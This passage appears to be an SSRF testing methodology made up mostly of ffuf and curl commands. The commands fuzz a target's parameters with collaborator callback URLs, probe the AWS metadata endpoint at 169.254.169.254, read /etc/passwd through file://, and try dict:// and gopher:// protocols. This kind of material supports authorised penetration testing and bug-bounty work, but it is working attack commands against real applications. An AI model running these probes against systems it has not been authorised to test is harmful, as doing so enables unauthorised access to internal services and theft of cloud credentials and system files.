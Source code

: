 ```bash
# FFUF (GET)
ffuf -w ssrf-params.txt -u "<https://target.com/FUZZ=http://burpcollaborator.net>" -fs 0

# FFUF (POST)
ffuf -w ssrf-params.txt -X POST -d 'FUZZ=http://burpcollaborator.net' -u <https://target.com/api> -fs 0

# Curl Testing
curl "<https://target.com/url=http://burpcollaborator.net>"
```

#### 2. Verify URL Processing

For each found parameter, test if it actually fetches URLs:

```bash
# Test with your collaborator
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=http://YOURCOLLABORATOR.oastify.com>" -fs 0

# Check response time to detect potential blind SSRF
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=http://169.254.169.254>" -fs 0 -t 1

```

#### 3. Test Internal Access

Once you confirm URL fetching, test internal endpoints:

```bash
# AWS metadata endpoint
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=http://169.254.169.254/latest/meta-data/>" -fs 0

# Common internal services
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=http://internal.example.com>" -fs 0

```

#### 4. Protocol Testing

Check if other protocols are allowed:

```bash
# File protocol
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=file:///etc/passwd>" -fs 0

# Other dangerous protocols
ffuf -w ssrf-params.txt -u "<https://example.com/FUZZ=dict://localhost:22>" -fs 0

```

#### Next Steps After Finding Parameters

* Internal IP ranges
* Special protocols (file://, gopher://)
* HTTP header injection (via Host, X-Forwarded-For)
